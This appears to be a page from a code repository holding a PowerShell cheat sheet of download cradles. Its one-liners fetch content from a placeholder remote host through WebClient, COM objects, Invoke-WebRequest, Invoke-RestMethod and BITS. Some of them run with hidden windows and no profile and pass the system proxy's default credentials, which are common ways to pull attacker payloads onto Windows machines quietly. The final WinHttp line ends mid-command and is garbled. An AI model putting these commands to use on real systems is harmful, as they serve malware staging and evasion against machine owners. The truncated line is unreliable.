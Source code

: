 ### Download a string - DownloadString
```
(New-Object Net.WebClient).downloadString('https://<rhost>')
```

### Download a string - DownloadData
```
$str = (New-Object Net.WebClient).DownloadData('https://<rhost>'); [Text.Encoding]::UTF8.GetString($str)
```

### Download a string - ComObject
```
$ie = New-Object -ComObject InternetExplorer.Application; $ie.visible=$False; $ie.navigate('https://<rhost>'); sleep 5; $response=$ie.Document.body.innerHTML; $ie.quit(); $response -replace "<pre>","" -replace "</pre>",""
```

### Download a string - ComObject
```
$h = New-Object -ComObject Msxml2.XMLHTTP; $h.open('GET','https://<rhost>',$false); $h.send(); echo $h.responseText
```

### Download string using default proxy settings - Downloadstring
```
powershell.exe -nop -w hidden -c $t=New-Object Net.Webclient; $t.proxy=[Net.WebRequest]::GetSystemWebProxy(); $t.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials; $t.downloadstring('https://<rhost>')
```

### Download string using default proxy settings - DownloadString
```
powershell.exe -nop -w hidden -c $t=New-Object Net.Webclient; $t.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials; $t.downloadString('http://<rhost>')
```


### Download a file (ignore Internet-Explorer module error) - Invoke-Web-Request
```
iwr 'https://<rhost>' -OutFile <file> -UseBasicParsing
```

### Download a file - Invoke-RestMethod
```
Invoke-RestMethod 'https://<rhost>' -OutFile <file>
```

### Download a file - Start-BitsTransfer
```
Start-BitsTransfer 'https://<rhost>' -Destination <file>
```

### Download a file - DownloadFile
```
$webClient = [Net.WebClient]::new(); $webClient.DownloadFile('https://<rhost>', '<fullPathFile>')
```

### Download a file - ComObject
```
[Net.WebRequest]::DefaultWebProxy; [Net.CredentialCache]::DefaultNetworkCredentials; $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://<rhost>',$false);$h.send();ie
```


### Configure TLS version
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::'Tls11,Tls12'
```

